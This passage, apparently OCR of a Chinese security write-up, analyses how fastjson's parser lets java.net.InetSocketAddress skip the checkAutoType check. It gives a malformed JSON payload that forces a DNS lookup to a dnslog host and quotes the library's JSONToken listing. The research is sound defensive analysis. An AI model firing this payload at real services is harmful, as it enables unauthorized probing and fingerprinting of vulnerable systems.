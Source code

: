 `java.net.InetSocketAddress`类也在`IdentityHashMap`中，和上面一样无视`checkAutoType`检查。

通过它要走到`InetAddress.getByName()`流程计量方法一是要绕过一些路的。刚开始一直没构造出来，后来在和实验室的`@背影`师傅交流时，才知道可以顺着解析器规则构造（`它要啥就给它啥`），最终有效载荷如下，当然它是畸形的json。

    {"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}

那这个是怎样构造出来的呢？这需要简单了解下fastjson的词法分析器了，这里就不展开了。这里尤为关键的是解析器`token`值对应的含义，可以在`com.alibaba.fastjson.parser.JSONToken`类中看到它们。

    //com.alibaba.fastjson.parser.JSONToken
    public class JSONToken {
        ...
        public static String name(int value) {
            switch(value) {
            case 1:
                return "error";
            case 2:
                return "int";
            case 3:
                return "float";
            case 4:
                return "string";
            case 5:
                return "iso8601";
            case 6:
                return "true";
            case 7:
                return "false";
            case 8:
                return "null";
            case 9:
                return "new";
            case 10:
                return "(";
            case 11:
                return ")";
            case 12:
                return "{";
            case 13:
                return "}";
            case 14:
                return "[";
            case 15:
                return "]";
            case 16:
                return ",";
            case 17:
                return ":";
            case 18:
                return "ident";
            case 19:
                return "fieldName";
            case 20:
                return "EOF";
            case 21:
                return "Set";
            case 22:
                return "TreeSet";
            case 23:
                return "undefined";
            case 24:
                return ";";
            case 25:
                return ".";
